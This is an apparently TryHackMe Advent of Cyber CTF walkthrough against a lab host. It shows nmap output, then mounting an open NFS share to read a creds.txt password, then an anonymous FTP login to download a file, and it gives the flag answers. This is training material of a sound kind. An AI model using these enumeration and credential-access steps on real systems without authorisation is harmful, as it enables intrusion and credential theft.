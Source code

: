 ```
Network Distance: 2 hops
Service Info: OS: Unix

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   29.84 ms 10.8.0.1
2   30.17 ms 10.10.89.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.64 seconds
```

1. What is the password inside the creds.txt file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ showmount -e 10.10.89.226
Export list for 10.10.89.226:
/opt/files *
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir 10.10.89.226
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mount 10.10.89.226 10.10.89.226/
mount: only root can do that
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226 10.10.89.226/
mount: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226: /home/kali/CTFs/tryhackme/Advent of Cyber/10.10.89.226 is not a block device.
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ mkdir day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo mount 10.10.89.226:/opt/files day11_nfs
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ls -la day11_nfs/
total 8
drwxrwxrwx 2 kali kali   23 Dec 10  2019 .
drwxr-xr-x 3 kali kali 4096 Oct  2 11:34 ..
-rwxrwxrwx 1 kali kali   34 Dec 10  2019 creds.txt
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat day11_nfs/creds.txt
the password is securepassword123
```

`securepassword123`

2. What is the name of the file running on port 21?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ ftp 10.10.89.226
Connected to 10.10.89.226.
220 (vsFTPd 3.0.2)
Name (10.10.89.226:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (514.6748 kB/s)
```